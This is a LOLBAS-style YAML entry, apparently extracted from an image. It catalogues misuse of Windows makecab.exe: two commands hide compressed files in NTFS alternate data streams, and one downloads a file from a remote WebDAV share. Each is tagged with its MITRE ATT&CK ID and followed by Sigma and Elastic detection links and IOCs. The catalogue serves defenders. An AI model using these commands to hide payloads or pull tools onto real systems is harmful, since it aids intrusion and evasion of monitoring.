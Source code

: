 ```yaml
---
Name: Makecab.exe
Description: Binary to package existing files into a cabinet (.cab) file
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
    Description: Download and compresses the target file and stores it in the target file.
    Usecase: Download file and compress into a cab file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\makecab.exe
  - Path: C:\Windows\SysWOW64\makecab.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/688df3405afd778d63a2ea36a084344a2052848c/rules/windows/process_creation/process_creation_alternate_data_streams.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - IOC: Makecab retrieving files from Internet
  - IOC: Makecab storing data into alternate data streams
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

